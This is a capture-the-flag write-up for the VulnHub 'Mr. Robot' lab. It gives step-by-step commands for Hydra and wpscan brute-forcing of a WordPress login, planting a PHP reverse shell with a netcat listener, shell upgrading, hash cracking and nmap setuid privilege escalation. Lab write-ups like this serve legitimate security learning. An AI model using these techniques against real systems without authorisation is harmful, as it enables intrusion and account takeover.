 # Mr. Robot
**Completed 01/22/2023**

https://www.vulnhub.com/entry/mr-robot-1,151/

**Flags:**
1. /robots/key-1-of-3.txt: 073403c8a58a1f80d943455fb30724b9
2. /home/robot/key-2-of-3.txt: 822c73956184f694993bede3eb39f959
3. /root/key-3-of-3.txt: 04787ddef27c3dee1ee161b21670b4e4

# **Flag 1**
## nmap
- ran `nmap -sS --script vuln 10.10.1.102` to check for open ports and vulns
	- Found port 22 closed, 80 and 443 open
	- vuln script enumerated hidden dirs, led me to `/robots/`
	- found `key-1-of-3.txt` and navigated to URL to view it

## fsocity.dic 
- downloaded `fsocity.dic` which was a massive wordlist with repeated words
	- used `cat fsocity.dic | sort -u > filtered.txt` to sort the list and filter it down to unique values

# **Flag 2**
## /wp-login.php Enumeration
### Username
- other writeup obtained the POST request (wireshark?) from when they tried to login, showing that the form took the parameters `log` and `pwd`
- they then use Hydra to bruteforce the username with the command: `hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`
	- `-vV`: verbose
	- `-L fsocity.dic.uniq`: use the filtered wordliFst (filtered.txt on my box)
	- `-p wedontcare`: password doesn't matter here
	- `http-post-form`: what it is we're targeting, in this case an HTTP POST form
	- `'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`: telling hydra where to insert the username from the list and the irrelevant password in the POST, and indicating that it is a failed attempt if the returned data contains "Invalid username"
- Once this had run, the username `elliot` was found

### Password
- wpscan could be used to search for the password using the same wordlist (filtered.txt)
	- Ran `wpscan -url http://10.10.1.102/wp-login.php -U elliot -P filtered.txt` which returned the password of `ER28-0652`

## PHP Reverse Shell
### Editing a PHP page
- Looked around the admin panel, found Editor page under Appearance
	- First page that could be edited was the 404 page, which runs a php script
	- used `locate php-re` to find a PHP Reverse Shell on the Kali install
	- edited IP value in the template to my own, set port to 443
	- copied the entire script into the 404 page editor and saved

### Using the reverse shell
- ran `netcat -lnvp 443` to listen for the reverse shell
	- triggered a 404 page to gain access
	- found password MD5 hash `robot:c3fcd3d76192e4007dfb496cca67e13b` and `key-2-of-3.txt` in `/home/robot/`
	- permission denied for key file
	- used [crackstation](https://crackstation.net) to crack hash for result of `abcdefghijklmnopqrstuvwxyz`
	
- Back in the reverse shell
	- tried `su robot` to login to that user account, returned an error saying I had to run that command from a terminal
	- ran `python -c 'import pty;pty.spawn("/bin/bash")` to get into a bash terminal
	- could then use `su robot` to login to robot account and open `key-2-of-3.txt`

# Flag 3
## Privilege Escalation
- Use `find / -perm +6000 | grep '/bin/'` to locate binaries with the su ID bit set, which may be used for privilege escalation.
	- [gtfobins](https://gtfobins.github.io) provides instructions for privilege escalation for binaries like this.
- used `nmap --version` to find that it was version 3.81, which has a privilege escalation vulnerability
	- simply run `nmap --interactive`, then use `!sh` to start a shell within the nmap interactive mode
	- run `id` or `whoami` to see that there are now root privileges
	- navigate to `/root/` to view the final flag file, `key-3-of-3.txt`


# **Lessons Learned**
- Literally this entire CTF
	- First one I've ever done
- Learned about using the vuln script with nmap for some hidden directory enumeration
- Learned a way of bruteforcing usernames on HTTP POST forms with hydra
- Learned how to bruteforce passwords on wordpress pages using wpscan
- Learned how to inject a PHP Reverse Shell anywhere that php runs and the code can be edited at an admin level
- Discovered [crackstation](https://crackstation.net) for password hash cracking
- Learned how you can use a simple python command to get a bash shell from a basic reverse shell
- Learned about the nmap 3.81 privilege escalation vulnerability and how to use it (`!sh` while in interactive mode)